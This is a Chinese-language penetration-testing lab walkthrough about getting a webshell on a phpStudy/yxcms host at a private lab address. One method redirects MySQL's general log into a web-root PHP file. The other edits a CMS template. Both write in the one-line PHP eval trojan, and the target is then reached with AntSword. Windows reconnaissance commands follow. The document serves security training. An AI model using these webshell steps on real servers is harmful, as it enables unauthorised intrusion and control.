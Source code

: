 **第二步**、查看当前的日志存放的目录：show variables like 'general%'; 可以看到当前日志存放的目录为C:\phpstudy\MYSQL\data\stu1.log。

![image-20220615104351187](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151043215.png)

**第三步**、通过general_log_file来获取webshell，先指定一个文件，没有文件会创建一个新文件

set global general_log_file = "C:/phpStudy/www/1.php";

指定成功，接下来再执行的操作都会记录到1.php这个文件中



![image-20220615104651699](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151046732.png)

![image-20220615104643221](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151046261.png)

**第四步**、执行SELECT '<?php eval($_POST["123"]);?>' 也就是在1.php中写入一句话木马，连接密码123，执行成功，意思就是已经写进去了

![image-20220615104800080](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151048117.png)

**第五步**、蚁剑连接，连接成功

![image-20220626112552824](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206261125935.png)

#### 2、方法二：

①、访问http://192.168.72.145/yxcms/，更具提示登录

![image-20220626110531415](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206261105465.png)



②、进来后是一些关于服务器的相关配置，随便点点看看，在前台模板这里，有一个管理模板文件的按钮，点进去，发现有很多PHP文件。

![image-20220626111013748](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206261110826.png)   

③、在此随便选择一个PHP文件，这里以前台模板文件index_index.php为例，编辑写入一句话木马，为了跟方法一区分开，这里连接密码为456

![image-20220626112308530](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206261123582.png)

 

④、两个webshell都能正常连接

 ![image-20220626112510299](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206261125368.png)



### 四、内网信息收集

```java
whoami ///收集目标机器的身份

hostname /// 显示主机名称

net user ///显示用户

net localgroup administrator ///显示本地管理员组
```

